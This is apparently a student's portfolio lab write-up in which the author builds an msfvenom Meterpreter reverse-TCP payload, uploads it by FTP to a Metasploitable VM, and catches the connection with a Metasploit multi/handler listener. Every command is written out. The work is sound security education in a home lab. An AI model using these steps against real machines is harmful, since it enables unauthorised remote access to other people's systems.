 ```yaml
---
title: 😈 Establishing a Reverse Shell Using Metasploit and Msfvenom
permalink: /metasploit2
parent: Pentesting
---
```

# Establishing a Reverse Shell Using Metasploit and Msfvenom
{: .no_toc }

{: .note }
Pentesting, Ethical Hacking, Kali Linux, Metasploit, Metasploitable, Virtual Machines, Networking
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this Lab, I’ll be using Msfvenom and Metasploit to establish a reverse shell on a target machine. Msfvenom is a command line instance of Metasploit that is used to generate payloads, which is a piece of software that is designed to perform malicious actions on a target system. This payload must be delivered to and executed from the target machine. To do this, an attacker will use social engineering techniques or exploit a known vulnerability on the target machine. 

In this case, I’ll be creating a payload designed to establish a reverse shell. A reverse shell differs from a normal shell in that the target system initiates the connection back to the attacker’s machine. This connection is established when the payload is executed by the user of the target machine. From the attacker’s perspective, a benefit of establishing a reverse shell is that it may help bypass firewalls that block incoming traffic since the connection is coming from the target machine rather than the attacker’s machine. 

## Goals & Objectives
1. Create a reverse shell payload using Metasploit and Msfvenom
3. Transfer the payload to the target machine.
4. Create a listener to "listen" for an incoming connection from the target machine.
6. Execute the payload on the target machine.

## Results
### 📄 Task 1: Run Metasploit and Msfvenom

![](/assets/images/101_77_metasploit2/step0.png)

<br>
<br>
### 📄 Task 2: Create the reverse shell payload

In Metasploit, I use the following command to create the reverse shell payload:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.28.129 LPORT=5555 -f elf -o reverse-sh.elf
```

![](/assets/images/101_77_metasploit2/step1.png)

```-p linux/x86/meterpreter/reverse_tcp``` specifies the reverse shell payload  
```LHOST``` specifies the IP address of the machine I want the target machine to establish a connection with, which is the attacker’s machine  
```LPORT``` specifies the port the target machine will connect through  
```-f``` specifies the file type. ELF, or Executable and Linkable Format, is a common file format for executable files  
```-o``` saves the payload with the chosen file name: reverse-sh.

<br>
<br>
### 📄 Task 3: Transfer the payload to the target machine

There are many ways an attacker can transfer a payload to a target machine, such as using social engineering techniques like phishing, USB baiting, or watering hole attacks. For the sake of simplicity, I am provided with the username and password of the target machine.

With those credentials, I can use FTP (file transfer protocol), which is a standard network protocol used to transfer files between devices on a network. I use the following commands:

```bash
ftp 192.168.28.128 
put reverse-sh.elf
by
```

![](/assets/images/101_77_metasploit2/step2a.png)

```ftp 192.168.28.128``` establishes the FTP session. 192.168.28.128 is the IP address of the target machine.
```put reverse-sh.elf``` sends the payload to the target machine  
```by``` ends the session

<br>
<br>
### 📄 Task 4: Gain access to the target machine and make the payload executable

I access the target machine by establishing an SSH connection. The Metasploitable VM target machine has a default username and password of "msfadmin" which I use to log in to the machine.

![](/assets/images/101_77_metasploit2/step3.png)

Now that I have access to the target machine, I will give all users on the machine permissions to execute the payload. I use the following command: ```chmod +x reverse-sh.elf```

![](/assets/images/101_77_metasploit2/step4.png)

```chmod``` is the change mode command, which allows me to change the permissions of a file. ```+x``` adds executable permissions to all users. 

To see how changing file permissions works in Linux, see my [Managing File Permissions in Linux](/permissions) project.

<br>
<br>
### 📄 Task 5: Create a listener on the attacker’s machine

In a reverse shell, the target machine is initiating the connection to the attacker’s machine. In order for the attacker’s machine to acknowledge the connection request from the target machine, a listener must be created on the attacker’s machine. 

The listener essentially acts as a receiver, ready to accept the connection initiated by the reverse shell payload.

In a new terminal on Kali Linux, I initiate Metasploit once more by typing ```msfconsole```. Next, to specify that I want to use a listener, I type ```use exploit/multi/handler```. This tells Metasploit that I want to use the multi/handler module. With this module, I must specify three parameters: the local host (the attacker’s machine), the local port (through which the connection will be established), and the payload type. The following commands establish these parameters:

```bash
set lhost 192.168.28.129  
set lport 5555  
set payload linux/x86/meterpreter/reverse_tcp  
run
```

![](/assets/images/101_77_metasploit2/step5.png)

The attacking machine is now listening for an incoming connection from the target machine.

<br>
<br>
### 📄 Task 6: Execute the payload on the target machine

Finally, with the reverse shell payload in position and the listener active on the attacking machine, I switch back to the first terminal where a connection to the target machine was established using SSH and I type the following:

```./reverse-sh.elf```

Once I hit enter, the reverse shell payload executes. The Metasploit terminal outputs that “Meterpreter session 1 opened.” This indicates that the target machine initated the connection request and the attacking machine accepted the connection.

To find out how a Meterpreter shell works, please refer to my [Upgrading to Meterpreter Shell Using Metasploit](/metasploit1) project. 

Next, I type ```shell``` to access the reverse shell.

![](/assets/images/101_77_metasploit2/step6.png)

<br>
<br>

---

<a href="#top" id="back-to-top">Back to top</a>